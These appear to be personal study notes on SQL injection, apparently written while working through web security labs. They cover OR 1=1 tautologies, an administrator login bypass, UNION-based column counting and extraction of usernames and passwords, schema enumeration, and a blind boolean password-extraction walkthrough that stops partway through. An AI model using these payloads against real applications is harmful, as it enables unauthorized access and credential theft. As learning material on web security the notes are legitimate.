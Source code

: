 An vulnerability that makes an attacker to modify a sql query which the application provides to database.

The common places in queries for sql injection:
INSERT query - Value attribute

UPDATE query - WHERE values

SELECT query - table name or col name

SELECT query -ORDER BY clause

### Sample Injection :  OR 1=1--

```perl
https://insecure-website.com/products?category=Gifts'+OR+1=1--

-> causes

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND condition

In burp we need to put 
category = 'Gifts'+OR+1=1+--
-> + acts as separator of values primarily and as white space secondarily.
```

Provides data from all categories,  and don’t consider the condition

### Can avoid password with this query :

```perl
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Query : (In burp)

username=administrator'+--
```

### SQL Injection : Union Attacks

Sometimes results of sql query are returned with application’s ui responses, here we can get data from other table in same database using UNION keyword of sql query.

```perl
SELECT a, b FROM table1 UNION SELECT c, d FROM table2

-> The number of columns on both table should be same and the datatypes of columns 
	 should be same.
```

We can find the number of columns of the db which parses the sql query by using “Order BY” clause.

```perl
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --
```

When the web’s response differs from normal output/response, we can understand it is the limit of columns in the table. But here we will get http response, which may become blank/no output at some time due to db’s result. For this we use the alternative “ ‘ UNION SELECT NULL, NULL —

The thing is null will match with any data types of the column, and in maximum cases the response won’t be blank but will just add one extra row of null values with tables values to output.

```perl
'+UNION+SELECT+NULL,+NULL+--

-> in queries and remove all default values of the parameters, correct number of nulls 
will give 200 status code.

```

## **Database-specific syntax**

```sql
For oracle there is a built-in table, so we can use like this

' UNION SELECT NULL FROM DUAL--

-- should be followed by space.
```

### Finding column with specific database

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--

there by we can identify which column has string data type.
```

### We can find username, pw once we know the respective column names, column data types and number of columns:

```sql
' UNION SELECT username, password FROM users--
```

## **Retrieving multiple values within a single column**

```sql
' UNION SELECT username || '~' || password FROM users--

-> Concatenating two columns.
```

## **Examining the database in SQL injection attacks**

We need to find the version and type of db.

The table and column names it contains.

| Database type | Query |
| --- | --- |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

```sql
Sample code:
First find number of columns, then find data type then find this

'UNION SELECT @@version --

If -- this comment won't work, then go for #(different db different comments)
```

### Listing content of db:

Most dbs except Oracle have views to display the information.

```sql
SELECT table_name FROM information_schema.tables

--For displaying about tables info

SELECT column_name FROM information_schema.columns WHERE table_name = 'Users'
--For column names of specific table

Then select 
select coulmnname from tablename
```

## Blind SQL-Injection:

Even though an application has sql vulnerabilities, it still won’t provide http response from db. Here UNION wont be effective.  How to exploit ?

Let’s say a website is using unique cookie for a user email. In burp when we login and we can see the cookie passing, if the cookie is correct, in response(not http/ui response) we can see some modifications. It might be used to exploit such vulnerabilities.

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'

here we can add like :
TrackingId = 'u5YD3PapBcR4lN3e7Tj4'+AND+'1'='1+--
```

To find the password we can check each character for the password of a user, lets say there is a table “Users”, column “password”,”username” and one username=”administrator”. Then we can do 

```sql
TrackingId = 'u5YD3PapBcR4lN3e7Tj4' AND SUBSTRING((SELECT Password FROM Users 
WHERE Username = 'Administrator'), 1, 1) = 'm
```

1. `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
    
    Verify that the condition is true, confirming that there is a user called `administrator`.
    
2. The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
    
    This condition should be true, confirming that the password is greater than 1 character in length.
    
3. Send a series of follow-up values to test different password lengths. Send:`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='aTrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`
